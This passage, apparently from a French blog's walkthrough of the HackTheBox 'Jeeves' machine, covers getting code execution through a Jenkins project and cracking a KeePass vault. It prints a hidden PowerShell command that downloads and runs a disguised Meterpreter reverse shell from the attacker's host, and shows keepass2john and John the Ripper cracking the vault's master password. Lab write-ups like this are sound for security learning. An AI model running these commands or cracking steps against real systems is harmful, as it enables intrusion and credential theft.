 Il n'y a plus qu'à créer un nouveau projet vide et rajouter les commandes suivantes pour télécharger et exécuter un reverse *Meterpreter* (j'ai nommé le fichier *jre.exe* pour plus de discrétion) :  

```plain
powershell.exe -w hidden -nop -ep bypass -c "(new-object net.webclient).DownloadFile('http://10.10.15.67:8000/jre.exe', 'C:\Users\Administrator\.jenkins\logs\jre.exe')" & C:\Users\Administrator\.jenkins\logs\jre.exe') &
```

La particularité de *HackTheBox* c'est que plusieurs personnes peuvent plancher au même moment sur la machine... Ça peut être amusant d'observer la méthodologie des autres participants mais le revers de la médaille c'est que les scripts des autres participants peuvent spoiler une étape de challenge...  

De plus comme une machine peut devenir instable, il est possible de la réinitialiser depuis le site. Certains en abusent pensant à tord qu'un exploit n'a pas fonctionné pour X raisons (mais pour certaines machines il s'avère que c'est souvent une étape nécessaire).  

A cause de cela il arrive qu'on ait à répéter les même étapes, comme si on était dans *Un jour sans fin* :D  

Dans le dossier *Jenkins* précédemment listé on trouve différentes clés (*master.key*, *secret.key*, *initialAdminPassword*, etc) malheureusement il manque le fichier *credentials.xml* [qui aurait pu](https://www.n00py.io/2017/01/compromising-jenkins-and-extracting-credentials/) nous permettre de trouver un password à tester ailleurs.  

Lors de mes errances quelqu'un a déposé à un moment un *credentials.xml* qui a du mettre les autres participants sur une mauvaise piste... sympa :(   

Avec notre shell *Meterpreter* on en en mesure d'accéder au fichier *user.txt* (le flag de mi-parcours du challenge) qui est dans le bureau de l'utilisateur. En revanche le système Windows semble bien patché, et le module *local\_exploit\_suggester* est d'ailleurs peu bavard.  

Boss final
----------

Il est temps de fouiller ailleurs et toujours parmi les fichier de *kohsuke* on trouve un énigmatique fichier avec l'extension *kdbx* qui s'avère lié au gestionnaire de mots de passes *Keepass*.  

Après avoir téléchargé le fichier via *Meterpreter* il est temps de trouver quoi en faire... Un simple *apt-cache keepass* suffira à me mettre sur le chemin de *keepass2john* qui permet de convertir le hash de la passphrase maîtresse dans un format cassable via *John The Ripper*.  

```plain
devloop@kali:~/Documents$ keepass2john CEH.kdbx
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b7
3766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

Armé de la wordlist *rockyou* le mot de passe tombe relativement vite (*moonshine1*). On peut alors ouvrir l'archive *KeePass* pour voir les mots de passes stockés.  

![Jeeves HTB Keepass vault](https://raw.githubusercontent.com/devl00p/blog/master/images/htb_jeeves/keepass2_screenshot.png)  
